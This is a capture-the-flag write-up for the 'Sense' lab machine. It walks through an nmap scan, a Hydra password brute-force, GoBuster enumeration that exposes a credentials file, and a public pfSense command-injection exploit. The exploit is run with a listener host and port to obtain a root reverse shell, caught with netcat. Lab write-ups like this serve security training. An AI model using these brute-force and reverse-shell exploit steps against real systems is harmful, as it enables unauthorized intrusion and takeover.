

`Box: Linux`
`Level: Easy`
### Index
1. [[#Box Info]]
2. [[#Initial Nmap Scan]]
3. [[#`Web`]]
	1. [[#`Hydra to bruteforce login page`]]
	2. [[#`Directory and File Enumeration using GoBuster`]]
	3. [[#`pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection`]]

### `Box Info`
```
Sense, while not requiring many steps to complete, can be challenging for some as the proof of concept exploit that is publicly available is very unreliable. An alternate method using the same vulnerability is required to successfully gain access.
```

### `Initial Nmap Scan`
```
PORT    STATE SERVICE  VERSION
80/tcp  open  http     lighttpd 1.4.35
|_http-title: Did not follow redirect to https://sense.htb/
|_http-server-header: lighttpd/1.4.35
443/tcp open  ssl/http lighttpd 1.4.35
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: lighttpd/1.4.35
|_http-title: 501
|_ssl-date: TLS randomness does not represent time
```

### `Web`
###### `Hydra to bruteforce login page`
```
 hydra -l admin -P /usr/share/wordlists/seclists/Passwords/500-worst-passwords.txt  10.10.10.60 http-post-form "/index.php:usernamefld=^USER^&passwordfld=^PASS^:Username or Password incorrect"
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-10-01 21:16:16
[DATA] max 16 tasks per 1 server, overall 16 tasks, 499 login tries (l:1/p:499), ~32 tries per task
[DATA] attacking http-post-form://10.10.10.60:80/index.php:usernamefld=^USER^&passwordfld=^PASS^:Username or Password incorrect
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-10-01 21:17:14
```

###### `Directory and File Enumeration using GoBuster`
```
# gobuster dir -u https://10.10.10.60/ -k -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,conf,zip,inc,tar -b 403,404
/index.php            (Status: 200) [Size: 6690]
/help.php             (Status: 200) [Size: 6689]
/themes               (Status: 301) [Size: 0] [--> https://10.10.10.60/themes/]
/stats.php            (Status: 200) [Size: 6690]
/css                  (Status: 301) [Size: 0] [--> https://10.10.10.60/css/]
/edit.php             (Status: 200) [Size: 6689]
/includes             (Status: 301) [Size: 0] [--> https://10.10.10.60/includes/]
/license.php          (Status: 200) [Size: 6692]
/system.php           (Status: 200) [Size: 6691]
/status.php           (Status: 200) [Size: 6691]
/javascript           (Status: 301) [Size: 0] [--> https://10.10.10.60/javascript/]
/classes              (Status: 301) [Size: 0] [--> https://10.10.10.60/classes/]
/exec.php             (Status: 200) [Size: 6689]
/widgets              (Status: 301) [Size: 0] [--> https://10.10.10.60/widgets/]
/graph.php            (Status: 200) [Size: 6690]
/tree                 (Status: 301) [Size: 0] [--> https://10.10.10.60/tree/]
/wizard.php           (Status: 200) [Size: 6691]
/shortcuts            (Status: 301) [Size: 0] [--> https://10.10.10.60/shortcuts/]
/pkg.php              (Status: 200) [Size: 6688]
/installer            (Status: 301) [Size: 0] [--> https://10.10.10.60/installer/]
/wizards              (Status: 301) [Size: 0] [--> https://10.10.10.60/wizards/]
/xmlrpc.php           (Status: 200) [Size: 384]
/system-users.txt     (Status: 200) [Size: 106]

```

The directories which says `301` above were all printing HTML text that says `404 not found` upon trying. 

The file `system-user.txt` reveals the credentials.


On the web `https://10.10.10.60/`, the credentials works. the password that I guessed was `pfsense`.


###### `pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection`

The [Exploit-DB](https://www.exploit-db.com/exploits/43560) Exploit got us the root shell.
```
# python 43560.py --rhost 10.10.10.60 --lhost 10.10.14.8 --lport 4444 --username rohit --password pfsense
CSRF token obtained
Running exploit...
Exploit completed
```

on the netcat side
```
# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.60] 48326
sh: can't access tty; job control turned off
# id
uid=0(root) gid=0(wheel) groups=0(wheel)
# cat /root/root.txt
d*****************
```

Get your user & root flag.